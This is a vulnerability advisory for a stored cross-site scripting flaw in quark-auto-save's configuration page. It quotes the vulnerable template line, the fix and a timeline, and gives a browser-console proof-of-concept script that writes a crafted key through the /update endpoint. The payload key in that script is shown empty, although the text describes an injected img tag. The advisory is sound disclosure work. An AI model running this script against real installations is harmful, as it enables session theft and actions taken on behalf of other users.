

# CVE-2026-45228 — Stored XSS via System Configuration (push_config Keys)

## Summary

In quark-auto-save's System Configuration page, push_config key names are rendered using Vue.js's `v-html` directive, which outputs raw HTML with no escaping. An authenticated attacker can inject a JavaScript payload as a key name through the `/update` endpoint, where it gets written to disk and fires in the browser of every user who opens the System Configuration tab. The payload survives page refreshes because it's stored on disk, not just in memory.

---

## Metadata

| Field             | Value                                                                 |
|---------|------|
| CVE ID            | CVE-2026-45228                                                        |
| GHSA ID           | N/A (assigned by VulnCheck)                                           |
| Severity          | **Medium**                                                            |
| CVSS v3.1 Score   | 5.4 — `AV:N/AC:L/PR:L/UI:R/S:C/C:N/I:L/A:L`                         |
| CWE               | CWE-79: Improper Neutralization of Input During Web Page Generation (Cross-site Scripting) |
| Affected Versions | `< 0.8.5`                                                             |
| Patched Version   | `0.8.5`                                                               |
| Affected Repo     | [Cp0204/quark-auto-save](https://github.com/Cp0204/quark-auto-save)  |
| Report Date       | 17 April 2026                                                         |
| Publish Date      | 13 May 2026                                                           |

---

## Vulnerability Details

### Root Cause

The System Configuration page in `app/templates/index.html` iterates over `push_config` entries and renders each key name using the `v-html` directive. In Vue.js, `v-html` injects content as raw HTML, meaning any HTML or JavaScript inside the string gets parsed and executed by the browser. The safe alternative, `{{ }}` text interpolation, HTML-encodes the output and would prevent this entirely.

Because `push_config` lives inside `config_data`, and the `/update` endpoint writes any caller-supplied key into `config_data` (see CVE-2026-45229), an attacker can plant any string they want as a key name. Once it's there it gets rendered as HTML for every authenticated user who visits the page.

### Affected File

`app/templates/index.html`, line 118

### Vulnerable Code

```html
<div v-for="(value, key) in formData.push_config" :key="key" class="input-group mb2">
  <div class="input-group-prepend">
    <span class="input-group-text" v-html="key"></span>
  </div>
</div>
```

The `v-html="key"` on line 118 is the sink. Any HTML in `key` is injected directly into the DOM with no sanitisation.

---

## Proof of Concept

Run this in the browser console while logged in. It fetches the current config, plants an XSS payload as a `push_config` key, and writes it back to disk via `/update`:

```javascript
(async () => {
  const r = await fetch('/data', { credentials: 'include' });
  const j = await r.json();
  const body = j.data;
  body.push_config = body.push_config || {};
  body.push_config[""] = "xss_test";
  const u = await fetch('/update', {
    method: 'POST',
    credentials: 'include',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify(body)
  });
  console.log('update status', u.status, await u.json());
})();
```

Navigate to the System Configuration tab. The injected `img` tag fires immediately and on every subsequent page load, executing arbitrary JavaScript in the browser of any authenticated user who visits the tab.



---

## Impact

The payload is stored on disk, not in a session, so it affects every authenticated user who opens System Configuration from that point on.

From there an attacker can steal session cookies to impersonate other users, perform arbitrary actions on their behalf (creating or deleting tasks, changing credentials, reading cloud tokens), and in the worst case write a self-replicating payload that re-injects itself each time the page is visited. Chained with CVE-2026-45229, the attacker can plant the payload without needing to navigate the UI at all.

---

## Fix

Fixed in `v0.8.5` by [Cp0204](https://github.com/Cp0204) via commit [`8436e28`](https://github.com/Cp0204/quark-auto-save/commit/8436e2821988637ed7bfc5562544d089e6b29478), with the security patch contributed by Katriel Moses.

The fix is a one-line change, replacing the unsafe `v-html` directive with Vue's safe text interpolation, which HTML-encodes output automatically:

```html
<!-- Before (vulnerable) -->
<span class="input-group-text" v-html="key"></span>

<!-- After (safe) -->
<span class="input-group-text">{{ key }}</span>
```

---

## Timeline

- **17 April 2026** — Vulnerability discovered and privately reported to Cp0204
- **18 April 2026** — Fix merged and released in v0.8.5, commit [`8436e28`](https://github.com/Cp0204/quark-auto-save/commit/8436e2821988637ed7bfc5562544d089e6b29478)
- **11 May 2026** — CVE-2026-45228 reserved by VulnCheck
- **13 May 2026** — CVE published and advisory released

---

## References

- [Fix — commit 8436e28](https://github.com/Cp0204/quark-auto-save/commit/8436e2821988637ed7bfc5562544d089e6b29478)
- [v0.8.5 Release Notes](https://github.com/Cp0204/quark-auto-save/releases/tag/v0.8.5)
- [CVE-2026-45228 on MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-45228)
- [Cp0204/quark-auto-save](https://github.com/Cp0204/quark-auto-save)